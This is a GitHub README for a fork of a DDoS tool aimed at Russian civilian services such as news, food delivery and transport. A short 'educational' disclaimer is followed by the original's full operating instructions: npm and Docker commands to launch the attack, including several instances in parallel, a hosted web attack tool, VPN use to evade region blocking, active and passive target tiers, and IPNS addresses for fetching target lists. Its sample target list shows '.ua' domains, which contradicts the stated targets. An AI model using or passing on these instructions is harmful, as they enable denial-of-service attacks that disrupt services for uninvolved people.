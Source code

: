 # DDos Anyone

**Peace and love.**

**Web Attack to Russian MUST BE STOPPED!**

This repository is forked from 0x77dev.

However, as the original repository, which is designed to do something eval, it contains a set of tools to attack russian services such as news, food delivery, transport and more for both technical and non-technical kind of persons. 

But, please do not use this to attack anyone, as i forked here and try to modify it. It is just an opportunity for eduacation, for learning, and try to defence from it. 

**Do NOT use it to Web Attack Russian!**

**Do NOT use it to Web Attack Russian!**

**Do NOT use it to Web Attack Russian!**

**Do NOT use it to Web Attack Russian!**




**The followings are from the original repo:**




## How to get started?

First of all, do not do this at full power from Ukrainian providers, this can harm the connectivity of other people with the world by taking down providers if a lot of people will do this simultaneously.

Also you need to use a VPN if you running this on your local machine, because many of the services uses region blocking to not accept requests from Ukraine

[ClearVPN](https://my.clearvpn.com/promo/redeem?code=SAVEUKRAINE) is a good choice, use can use promo-code `SAVEUKRAINE` to get free access for a year

### Web browser

You can use web tool to start DDoS on russian services: https://stoprussia.0x77.dev

### CLI

[Install Node.js >=16](https://nodejs.org/en/)

```console
npm i -g stoprussia autocannon
stoprussia
```

### Docker

[Install Docker](https://docs.docker.com/get-docker/)

Single instance:

```console
docker run -it ghcr.io/0x77dev/stoprussia:main
```

Running multiple instances:

```console
docker run -t ghcr.io/0x77dev/stoprussia:main -b 1 &
docker run -t ghcr.io/0x77dev/stoprussia:main -b 2 &
docker run -t ghcr.io/0x77dev/stoprussia:main -b 3 &
docker run -t ghcr.io/0x77dev/stoprussia:main -b 4
```


### More coming soon

More performant desktop, docker and kubernetes versions coming soon...

## Choosing battlefield

The list of targets are split into 4 chunks each chunk called battlefield

Battlefield 1: passive attack and low priority services

Battlefield 2: passive attack and medium priority services

Battlefield 3: active attack and medium priority services

Battlefield 4: active attack and high priority services


Battlefield 3 and 4 is the main focus to DDoS

## How can I get the list of targets?

Targets list are distributed over IPFS

You get it by resolving IPNS name
```
ipns://srl.0x77.dev
```

by requesting Cloudflare Gateway:

```
https://srl.0x77.dev
``` 

things you receive will be like:
```
{
  "targets": [
    "https://xxxxx.ua/",
    "https://xxxx.ua/",
    "https://xxx.ua/",
    "https://xx.ua/",
  ],
  "version": 1646103235
}
```

or by requesting Cloudflare Gateway directly:

```
https://cloudflare-ipfs.com/ipns/srl.0x77.dev
```

or by requesting public IPFS gateway:

```
https://ipfs.io/ipns/srl.0x77.dev
```
